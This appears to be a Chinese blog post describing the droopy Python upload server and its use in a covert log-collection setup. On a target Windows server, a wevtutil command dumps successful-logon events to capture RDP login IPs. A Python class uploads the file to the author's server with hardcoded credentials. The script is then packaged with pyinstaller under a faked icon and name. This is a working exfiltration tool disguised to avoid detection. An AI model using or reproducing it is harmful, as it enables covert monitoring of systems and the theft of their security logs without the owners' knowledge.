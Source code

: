 ```yaml
---
title: droopy
description: droopy
categories:
 - tools
 - python
tags: 
 - python
---
```


python写的一个文件上传功能的Web服务器

[源码](http://stackp.online.fr/wp-content/uploads/droopy)

![1594886013](https://yui77111.github.io/assets/images/article/droopy/1594886013.jpg)

我们用到的参数有-d指定上传路径、-a指定访问401验证账号密码

![1594888077](https://yui77111.github.io/assets/images/article/droopy/1594888077.jpg)

![1594888031](https://yui77111.github.io/assets/images/article/droopy/1594888031.jpg)

#### 思路

遇到什么大project的时候，经常被要求要获取服务器的3389登录ip，但有时需要的是长时间监控服务器才能获取最新的登录ip，所以这时候就靠自动化

获取本地登录事件并保存到文本->通过droopy上传到服务器->后续可以加短信、邮件或wechat推送通知

和ftp的区别在于，ftp的账号密码是写在文件里的，对面拿到exe可以逆向拿到你ftp的账号密码，登录上去看到你服务器上的文件，而droopy即使拿到了401账号密码进去后也只有一个上传功能，虽説不能保证后面会不会爆什么安全漏洞但目前来説还没有问题。

#### wevtutil获取登录事件

获取事件ID4624并保存到logins.txt里，4624为登录成功日志，多事件ID可用or分隔

```
wevtutil qe Security "/q:*[System [(EventID=4624)]]" /rd:true /f:text > "logins.txt"
```

#### python

```python
class myupload():
    def __init__(self,url):
        self.url = url

    def upload(self,upload_file):
        files = {'upfile':(upload_file.split(sep)[-1],open(upload_file,'rb'),'text/plain',{})}
        request('POST',self.url,data=None,files=files,auth=('thomas','thomastom'))
```

#### 效果

![1594889003](https://yui77111.github.io/assets/images/article/droopy/1594889003.jpg)

![1594889124](https://yui77111.github.io/assets/images/article/droopy/1594889124.jpg)

#### 其他

将写好的.py用pyinstaller打包，打包的时候可以-i加个icon图标，再把名改改伪造伪造。

py打包exe体积太大可以通过虚拟环境内打包解决

```python
#建立虚拟环境
pipenv install
#进入虚拟环境
pipenv shell
#安装模块
pip install 小工具.py里面用到的模块
#打包的模块也要安装
pip install pyinstaller
#开始打包
pyinstaller -Fw E:\test\url_crawler.py
```

